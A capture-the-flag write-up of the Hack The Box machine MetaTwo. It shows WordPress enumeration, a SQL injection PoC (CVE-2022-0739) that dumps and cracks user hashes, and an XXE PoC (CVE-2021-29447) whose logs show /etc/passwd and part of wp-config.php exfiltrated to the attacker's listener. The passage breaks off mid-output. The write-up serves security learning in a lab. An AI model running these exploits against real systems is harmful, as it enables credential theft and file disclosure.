






---
tags:
  - wordpress
  - CVE-2022-0739
  - CVE-2021-29447
  - XXE
  - passpie
group: Linux
---


- Machine : https://app.hackthebox.com/machines/MetaTwo
- Reference : https://0xdf.gitlab.io/2023/04/29/htb-metatwo.html
- Solved : 2024.12.08. (Sun) (Takes 1days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Identified open ports: FTP, SSH, HTTP.
        - Confirmed the domain name `metapress.htb` and added it to `/etc/hosts`.
    - **HTTP Enumeration**:
        - Discovered WordPress running on HTTP port with version `5.6.2`.
        - Found `robots.txt`, `/wp-admin`, and `/wp-sitemap.xml`.
        - Enumerated WordPress plugins and found `BookingPress` plugin with version `1.0.10`.
        
2. **Exploitation of WordPress Plugin**
    - **SQL Injection (CVE-2022-0739)**:
        - Exploited an unauthenticated SQL Injection in the `BookingPress` plugin to dump the database.
        - Extracted WordPress user credentials and cracked the `manager` password hash using `John the Ripper`.
        
3. **Access via WordPress Admin**
    - Logged in as `manager` to the WordPress admin panel.
    - Exploited file upload functionality to perform an **XXE attack** (CVE-2021-29447).
    - Used the XXE vulnerability to read sensitive files like `/etc/passwd` and `wp-config.php`.
    
4. **FTP Access**
    - Retrieved FTP credentials from `wp-config.php`.
    - Logged in to the FTP service and found additional files, including `send_email.php`, containing credentials for the `jnelson` user.
    
5. **Shell as `jnelson`**

    - Used `jnelson`'s credentials to SSH into the system.
    - Enumerated the system and found the `.passpie` directory, indicating the presence of stored passwords.
    
6. **Privilege Escalation**
    - Extracted `.keys` from the `.passpie` directory and cracked the PGP passphrase using `gpg2john` and `John the Ripper`.
    - Decrypted the stored passwords and retrieved the root password.
    - Used `su` to switch to the `root` user.

### Key Techniques:

- **Enumeration**: WordPress and plugin enumeration to identify vulnerabilities.
- **Exploitation**: SQL Injection and XXE attacks to extract sensitive information.
- **Password Cracking**: Cracked WordPress and PGP passphrases using `John the Ripper`.
- **File Analysis**: Analyzed configuration files and scripts for credentials.
- **Privilege Escalation**: Decrypted stored credentials using cracked PGP keys for root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.186
Performing quick port scan on 10.10.11.186...
Found open ports: 21,22,80,10490,11803,16702,17883,19520,21016,24258,26455,27065,29834,36120,41406,41555,46279,47811,47874,50462,56945,58418,64186,64768
Performing detailed scan on 10.10.11.186...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-08 03:57 EST
Nmap scan report for 10.10.11.186
Host is up (0.14s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp    open   ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp    open   http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
<SNIP>
```

- 3 ports are open : ftp(21), ssh(22), http(80)
- I don't think anonymous login is allowed in ftp(21) service.
- http(80) service is running on `nginx`.
- Domain name might be `metapress.htb`.. Let's add it to `/etc/hosts`.

### http(80)

Let's visit the main page first.



It looks like normal website, and doesn't have many inputs.
Instead, there are some links.
On its bottom, there is a comment : "Proudly powered by WordPress."

Let me run `wpscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wpscan --url http://metapress.htb
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://metapress.htb/ [10.10.11.186]
[+] Started: Sun Dec  8 05:36:58 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.18.0
 |  - X-Powered-By: PHP/8.0.24
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://metapress.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://metapress.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://metapress.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://metapress.htb/wp-content/themes/twentytwentyone/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
```

- `robots.txt` exists which has `/wp-admin` in it.
- `XML-RPC` is enabled..
- There's a `readme` page : `http://metapress.htb/readme.html`



There are only `/wp-admin`, and `wp-sitemap.xml`.



`/wp-admin` is redirected to wordpress login page.. I found that there's `admin` user existing based on its output. But have no clue regarding its password for now..
I tested some, but none of them worked.



`/wp-sitemap.xml` contains several URLs.
I visited all pages recursively, but none of the pages were new or useful.
Instead, I found a link `http://metapress.htb/events` page that I found in first visit.

Let me click `/events` page.


It looks like an reservation page.
On its source code, I found the following;

```html
<link rel='stylesheet' id='twenty-twenty-one-print-style-css'  href='http://metapress.htb/wp-content/themes/twentytwentyone/assets/css/print.css?ver=1.1' media='print' />
<link rel='stylesheet' id='bookingpress_element_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_element_theme.css?ver=1.0.10' media='all' />
<link rel='stylesheet' id='bookingpress_fonts_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10' media='all' />
<link rel='stylesheet' id='bookingpress_front_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_front.css?ver=1.0.10' media='all' />
<link rel='stylesheet' id='bookingpress_tel_input-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_tel_input.css?ver=1.0.10' media='all' />
<link rel='stylesheet' id='bookingpress_calendar_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_vue_calendar.css?ver=1.0.10' media='all' />
```

Here I can find `bookingpress`, and its version : `1.0.10`.


# Wordpress Login as `manager`

### CVE-2022-0739

Let me find if there's any vulnerability.
I found that there's an "Unauthenticated SQL Injection" vulnerablity.
I found the following link regarding this vulnerability:
https://github.com/viardant/CVE-2022-0739

It automates SQL Injection attack and enables dumping SQL data.
Let's run it.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2022-0739]
└─$ python booking-sqlinjector.py -u http://metapress.htb -nu http://metapress.htb/events/ -a -o db_dump -p ")"

████████████████████████████████████████████████████████████████████
█─▄▄▄▄█─▄▄▄─█▄─▄█████▄─▄█▄─▀█▄─▄███▄─▄█▄─▄▄─█─▄▄▄─█─▄─▄─█─▄▄─█▄─▄▄▀█
█▄▄▄▄─█─██▀─██─██▀████─███─█▄▀─██─▄█─███─▄█▀█─███▀███─███─██─██─▄─▄█
▀▄▄▄▄▄▀───▄▄▀▄▄▄▄▄▀▀▀▄▄▄▀▄▄▄▀▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▄▄▀▀▄▄▄▀▀▄▄▄▄▀▄▄▀▄▄▀
====================================================================
             █▀▀ █░█ █▀▀ ▄▄ ▀█ █▀█ ▀█ ▀█ ▄▄ █▀█ ▀▀█ █▀█
             █▄▄ ▀▄▀ ██▄ ░░ █▄ █▄█ █▄ █▄ ░░ █▄█ ░░█ ▀▀█
    
[*] DB Fingerprint: 10.5.15-MariaDB-0+deb11u1
[*] Users found: 2
{
  "admin": {
    "email": "admin@metapress.htb",
    "password": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV."
  },
  "manager": {
    "email": "manager@metapress.htb",
    "password": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70"
  }
}
[*] Dumping information_schema.ALL_PLUGINS
[*] Dumping information_schema.APPLICABLE_ROLES
[*] Dumping information_schema.CHARACTER_SETS
[*] Dumping information_schema.CHECK_CONSTRAINTS
[*] Dumping information_schema.CLIENT_STATISTICS
[*] Dumping information_schema.COLLATIONS
<SNIP>
```

It succeeded and extract two credentials:
- `admin` : `admin@metapress.htb` : `$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.`
- `manager` : `manager@metapress.htb` : `$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70`

To check the hash's type, let's run `hash-identifier`.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

It's `MD5(Wordpress)` hash.

Let's save it to `hashes` file to crack.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat hashes      
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

Then, let's run `john` to crack it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 ASIMD 4x2])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager) 
```

It successfully cracked `manager`'s hash : `partylikearockstar`
Since this credential is extracted from `wp_user` table, I think I can use this credential on `/wp-admin` page. 
I tried it and it worked! I was able to login as `manager` on `wp-admin`.


# ftp as `metapress.htb`

### CVE-2021-29447



I expected using `Theme Editor` to spawn a reverse shell, but the user `manager` is not granted.
The user is only able to use `Media`.
The `media` menu contains `Add New` tab which might be interesting.



Luckily, it allows file upload.
There's a well explained PoC to exploit this vulnerability:
https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

Also, here I can find PoC code:
https://github.com/0xRar/CVE-2021-29447-PoC
Let's use it.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ python3 PoC.py -l 10.10.14.14 -p 8000 -f /etc/passwd

    ╔═╗╦  ╦╔═╗     
    ║  ╚╗╔╝║╣────2021-29447
    ╚═╝ ╚╝ ╚═╝
    Written By (Isa Ebrahim - 0xRar) on January, 2023

    ═══════════════════════════════════════════════════════════════════════════
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE
    [*] Affected versions: Wordpress 5.6 - 5.7
    [*] Patched version: Wordpress 5.7.1
    [*] Installation version: PHP 8
    ═══════════════════════════════════════════════════════════════════════════
    
[+] payload.wav was created.
[+] evil.dtd was created.
[+] manually upload the payload.wav file to the Media Library.
[+] wait for the GET request.

[Sun Dec  8 07:43:10 2024] PHP 8.2.21 Development Server (http://0.0.0.0:8000) started
[Sun Dec  8 07:43:30 2024] 10.10.11.186:56884 Accepted
[Sun Dec  8 07:43:30 2024] 10.10.11.186:56884 [200]: GET /evil.dtd
[Sun Dec  8 07:43:30 2024] 10.10.11.186:56884 Closing
[Sun Dec  8 07:43:31 2024] 10.10.11.186:56898 Accepted
[Sun Dec  8 07:43:31 2024] 10.10.11.186:56898 [404]: GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== - No such file or directory   
```

Then, let's paste the base64 encoded output to php file.

```php
<?php 
echo zlib_decode(base64_decode('jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw==')); 
?>
```

Then, let's run and decode the payload.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ php decode.php 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

Among the user list, users with shell are as follows : `root`, `jnelson`

I tried to read `id_rsa` file by reading `/root/.ssh/id_rsa`, `/home/jnelson/.ssh/id_rsa`, but both are not readable. So did `/etc/shadow`.

Instead, let's try to read `wp-config.php` file which is valuable to extract credentials..
I guessed that the uploaded file will be located in `/<webroot>/uploads`. So `wp-login.php` can be accessed by `../wp-config.php`.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ python3 PoC.py -l 10.10.14.14 -p 8000 -f ../wp-config.php

    ╔═╗╦  ╦╔═╗     
    ║  ╚╗╔╝║╣────2021-29447
    ╚═╝ ╚╝ ╚═╝
    Written By (Isa Ebrahim - 0xRar) on January, 2023

    ═══════════════════════════════════════════════════════════════════════════
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE
    [*] Affected versions: Wordpress 5.6 - 5.7
    [*] Patched version: Wordpress 5.7.1
    [*] Installation version: PHP 8
    ═══════════════════════════════════════════════════════════════════════════
    
[+] payload.wav was created.
[+] evil.dtd was created.
[+] manually upload the payload.wav file to the Media Library.
[+] wait for the GET request.

[Sun Dec  8 08:01:46 2024] PHP 8.2.21 Development Server (http://0.0.0.0:8000) started
[Sun Dec  8 08:01:50 2024] 10.10.11.186:46146 Accepted
[Sun Dec  8 08:01:50 2024] 10.10.11.186:46146 [200]: GET /evil.dtd
[Sun Dec  8 08:01:50 2024] 10.10.11.186:46146 Closing
[Sun Dec  8 08:01:50 2024] 10.10.11.186:46160 Accepted
[Sun Dec  8 08:01:50 2024] 10.10.11.186:46160 [404]: GET /?p=jVVZU/JKEH2+VvkfhhKMoARUQBARAoRNIEDCpgUhIRMSzEYyYVP87TdBBD71LvAANdNzTs/p6dMPaUMyTk9CgQBgJAg0ToVAFwFy/gsc4njOgkDUTdDVTaFhQssCgdDpiQBFWYMXAMtn2TpRI7ErgPGKPsGAP3l68glXW9HN6gHEtqC5Rf9+vk2Trf9x3uAsa+Ek8eN8g6DpLtXKuxix2ygxyzDCzMwteoX28088SbfQr2mUKJpxIRR9zClu1PHZ/FcWOYkzLYgA0t0LAVkDYxNySNYmh0ydHwVa+A+GXIlo0eSWxEZiXOUjxxSu+gcaXVE45ECtDIiDvK5hCIwlTps4S5JsAVl0qQXd5tEvPFS1SjDbmnwR7LcLNFsjmRK1VUtEBlzu7nmIYBr7kqgQcYZbdFxC/C9xrvRuXKLep1lZzhRWVdaI1m7q88ov0V8KO7T4fyFnCXr/qEK/7NN01dkWOcURa6/hWeby9AQEAGE7z1dD8tgpjK6BtibPbAie4MoCnCYAmlOQhW8jM5asjSG4wWN42F04VpJoMyX2iew7PF8fLO159tpFKkDElhQZXV4ZC9iIyIF1Uh2948/3vYy/2WoWeq+51kq524zMXqeYugXa4+WtmsazoftvN6HJXLtFssdM2NIre/18eMBfj20jGbkb9Ts2F6qUZr5AvE3EJoMwv9DJ7n3imnxOSAOzq3RmvnIzFjPEt9SA832jqFLFIplny/XDVbDKpbrMcY3I+mGCxxpDNFrL80dB2JCk7IvEfRWtNRve1KYFWUba2bl2WerNB+/v5GXhI/c2e+qtvlHUqXqO/FMpjFZh3vR6qfBUTg4Tg8Doo1iHHqOXyc+7fERNkEIqL1zgZnD2NlxfFNL+O3VZb08S8RhqUndU9BvFViGaqDJHFC9JJjsZh65qZ34hKr6UAmgSDcsik36e49HuMjVSMnNvcF4KPHzchwfWRng4ryXxq2V4/dF6vPXk/6UWOybscdQhrJinmIhGhYqV9lKRtTrCm0lOnXaHdsV8Za+DQvmCnrYooftCn3/oqlwaTju59E2wnC7j/1iL/VWwyItID289KV+6VNaNmvE66fP6Kh6cKkN5UFts+kD4qKfOhxWrPKr5CxWmQnbKflA/q1OyUBZTv9biD6Uw3Gqf55qZckuRAJWMcpbSvyzM4s2uBOn6Uoh14Nlm4cnOrqRNJzF9ol+ZojX39SPR60K8muKrRy61bZrDKNj7FeNaHnAaWpSX+K6RvFsfZD8XQQpgC4PF/gAqOHNFgHOo6AY0rfsjYAHy9mTiuqqqC3DXq4qsvQIJIcO6D4XcUfBpILo5CVm2YegmCnGm0/UKDO3PB2UtuA8NfW/xboPNk9l28aeVAIK3dMVG7txBkmv37kQ8SlA24Rjp5urTf